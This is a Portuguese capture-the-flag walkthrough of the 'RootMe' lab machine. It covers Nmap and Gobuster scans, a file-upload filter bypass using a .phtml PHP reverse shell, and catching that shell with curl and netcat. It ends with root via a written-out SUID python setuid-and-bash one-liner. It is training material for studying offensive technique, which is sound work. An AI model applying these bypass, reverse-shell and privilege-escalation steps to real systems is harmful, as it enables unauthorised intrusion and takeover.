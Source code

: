# _**RootMe CTF**_
![](root.jpg)

## _**Enumeração**_
Vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap --open -A -T5 [ip_address]
> ```
![](scan_nmap.jpg)

Vamos também realizar um scan com <mark>Gobuster</mark>
> ```bash
> gobuster dir --url [ip_adress] -w ../Discovery/Web-Content/common.txt
> ```
![](scan_gobuster.jpg)

Vamos verificar a <mark>página HTTP</mark>  

![](http.jpg)

Vamos ir verificando os diretórios descobertos com o scan Gobuster
Primeiro, <mark>index.php</mark>  

![](index.jpg)

Segundo, <mark>css</mark>  

![](css.jpg)

Terceiro, <mark>js</mark>  

![](javascript.jpg)

Em máquina de escrever, temos um pequeno trecho de código  
Acredito que serve apenas para dar _display_ das mensagens que foram vistas  
Vamos continuar  

Chegamos onde queriamos chegar  
No diretório <mark>pannel</mark>, podemos realizar upload de arquivos  

![](upload.jpg)

## _**Ganhando acesso**_

Vamos montar um script para podermos obter um _reverse shell_ em PHP  
Para encontrar, basta seguir este link do [_PentestMonkey_](https://github.com/pentestmonkey/php-reverse-shell)
Terminando de montar o arquivo, temos o seguinte erro  

![](reverse_failed.jpg)

Pareceq que não podemos realizar upload de arquivos .php  
Vamos buscar uma alternativa  
Segundo a dica, devemos buscar _Search for "file upload bypass" and "PHP reverse shell"._  
Encontramos este [link](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/README.md)  
Aqui, ele explica sobre as maneiras de realizar esse _bypass_  
Vamos tentar com .phtml

![](upload_success.png)

Agora, vamos usar o comando ```curl``` e ```netcat``` para obter o _reverse shell_  

![](reverse.jpg)

Agora, basta um comando ```find``` para buscar a primeira flag!
> ```bash
> find / -name "user.txt" 2>/dev/null
> ```

## _**Escalando privilégios**_
Vamos começar buscando os arquivos com permissões SUID
> ```bash
> find / -user root -perm /4000 2>/dev/null
> ```

Encontramos diversos arquivos suspeitos, mas o que acabou se destacando foi: <mark>/usr/bin/python</mark>  

![](usr_python.jpg)

Ele vai nos permitir escalar privilégios  
Vamos executar o comando abaixo
> ```bash
> /usr/bin/python -c 'import os; os.setuid(0); os.system("/bin/bash")'
> ```
![](priv_esc.jpg)

Conseguimos!!!  
Basta buscar a última flag agora (em /root)!
